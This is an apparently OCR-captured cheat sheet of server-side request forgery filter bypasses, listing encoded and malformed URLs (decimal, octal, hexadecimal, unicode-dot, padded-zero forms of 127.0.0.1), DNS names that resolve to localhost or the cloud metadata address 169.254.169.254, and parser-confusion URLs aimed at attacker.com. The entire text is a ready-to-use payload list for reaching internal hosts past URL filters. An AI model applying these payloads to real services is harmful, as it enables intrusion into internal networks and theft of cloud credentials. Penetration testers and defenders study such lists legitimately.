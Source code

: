```html
https://1:@127.0.0.1:\@@@@w.youtube.com/@https://www.youtube.com/
https:\/\/1:@127.0.0.1:\\@@@@w.youtube.com\/@https:\/www.youtube.com
https://1:@10.0.0.1:\@@@@w.youtube.com/@https://www.youtube.com/


# CDIR bypass
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# Octal Bypass
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# Add 0s bypass
127.000000000000.1

# You can also mix different encoding formats
# https://www.silisoftware.com/tools/ipconverter.php

# Malformed and rare
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS to localhost
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1

```
* **Domain Parser**
```html
https:attacker.com
https:/attacker.com
http:/\/\attacker.com
https:/\attacker.com
```